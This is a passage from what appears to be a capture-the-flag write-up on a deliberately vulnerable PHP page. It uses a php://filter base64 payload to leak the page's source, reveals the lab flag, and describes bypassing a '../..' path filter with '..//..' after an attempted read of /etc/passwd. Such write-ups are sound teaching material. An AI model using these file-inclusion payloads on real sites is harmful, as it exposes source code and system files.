 I tried including **/etc/passwd** but that's not allowed, let's try read base64 encode the test.php file and see what can we do.

`php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

Let's navigate to the following URL.

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![](7.png)

Great! We got the php code, let's decode it and see what it does.

```php
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>

```

In order for the view parameter to work, it should not contains `../..` and it should have `/var/www/html/development_testing` in the request.

We can bypass the first condition by using `..//..` instead.
